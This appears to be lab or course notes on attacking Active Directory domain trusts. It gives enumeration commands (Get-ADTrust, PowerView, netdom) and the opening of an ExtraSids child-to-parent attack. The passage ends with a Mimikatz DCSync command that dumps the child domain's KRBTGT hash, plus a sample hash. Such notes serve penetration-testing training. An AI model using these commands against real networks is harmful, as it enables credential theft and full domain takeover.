 # Windows
## Using Get-ADTrust
```
Import-Module activedirectory
```
Enumerating Trust Relationships
```
Get-ADTrust -Filter *
```
Checking for Existing Trusts using Get-DomainTrust
```
Get-DomainTrust
```
## PowerView
```
Get-DomainTrustMapping
```
```
TrustAttributes : WITHIN_FOREST
```
```
child domain
```
```
TrustAttributes : FOREST_TRANSITIVE
```
```
forest transitive trust 
```
### Checking Users in the Child Domain using Get-DomainUser
```
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```
## netdom
### query domain trust
```
netdom query /domain:inlanefreight.local trust
```
### query domain controllers
```
netdom query /domain:inlanefreight.local dc
```
### query workstations and servers
```
netdom query /domain:inlanefreight.local workstation
```
# Attacking Domain Trusts - Child -> Parent Trusts - from Windows
## ExtraSids Attack - Mimikatz: To perform this attack after compromising a child domain, we need the following:
### The KRBTGT hash for the child domain
Obtaining the KRBTGT Account's NT Hash using Mimikatz (Run powershell as administrator)
```
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```
```
/krbtgt:9d765b482771505cbe97411065964d5f
/rc4:9d765b482771505cbe97411065964d5f
```